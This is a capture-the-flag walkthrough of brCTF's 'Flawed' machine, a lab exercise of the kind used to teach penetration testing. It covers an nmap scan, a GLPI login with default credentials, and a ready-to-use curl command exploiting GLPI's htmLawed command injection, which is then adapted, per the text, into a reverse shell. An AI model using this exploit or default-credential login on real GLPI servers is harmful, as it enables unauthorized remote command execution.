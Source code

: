 # Flawed machine from brCTF

## Information Gathering/Reconnaissance
As is customary, we initiate our preferred network scanning tool, Nmap, to conduct initial reconnaissance. Our scan reveals that port 80, which is typically associated with HTTP and port 22, are accessible. <br>
`nmap -sC -sV -oN flawed.nmap 10.0.160.157`
```
Nmap scan report for 10.0.160.157
Host is up (0.23s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u2 (protocol 2.0)
80/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Authentication - GLPI
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

In the second phase of our reconnaissance, we proceed to examine the application hosted on port 80 by accessing it through our web browser. To our surprise, we are welcomed with a login page. Quite intriguing!
![GLPI Login](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/glpi-login.png "a title")

After a brief research on google we discovered default credentials for GLPI which we can try on out target.
![google glpi logins](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/glpi-default-creds.png "a title")

### Exploitation
We now attempt to login to GLPI and viola!!<br>
From there we move on with out recon and attempt to find the version of GLPI running. Hopefully we can find publicly available exploits.
![glpi logged in](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/checking-glpi-version.png "a title")
The version of GLPI can be seen in the photo below.
![glpi version enum](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/glpi-version.png "a title")

Now that we know the version running, we can google it to find avaiable exploits and shortly after, we find one on github from [Orange-CyberDefense](https://github.com/Orange-Cyberdefense/CVE-repository/blob/master/PoCs/POC_2022-35914.sh)

**CURL Command to exploit the vulnerability** <br>
```curl -s -d 'sid=foo&hhook=exec&text=[command]' -b 'sid=foo' http://[target-ip]/vendor/htmlawed/htmlawed/htmLawedTest.php |egrep '\&nbsp; \[[0-9]+\] =\&gt;'| sed -E 's/\&nbsp; \[[0-9]+\] =\&gt; (.*)<br \/>/\1/'```

Replace [command] and [target] with the command you  want to execute on the target and the IP address of the target respecfully.

We modify the exploit to get a reverse shell on out netcat listener.<br>
Firstly, we must make sure we are listening for incoming connections. <br>
![netcat listening](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/start-netcat-listener.png "a title")

Secondly, we prepare our exploit code to obtain a reverse shell.<br>
![preparing payload](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/modify-exploit.png "a title")

We can now execute the command and boom!! we get a connection on our listener. <br>
![conn reccv](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/flawed/images/nc-connectio-received.png "a title")
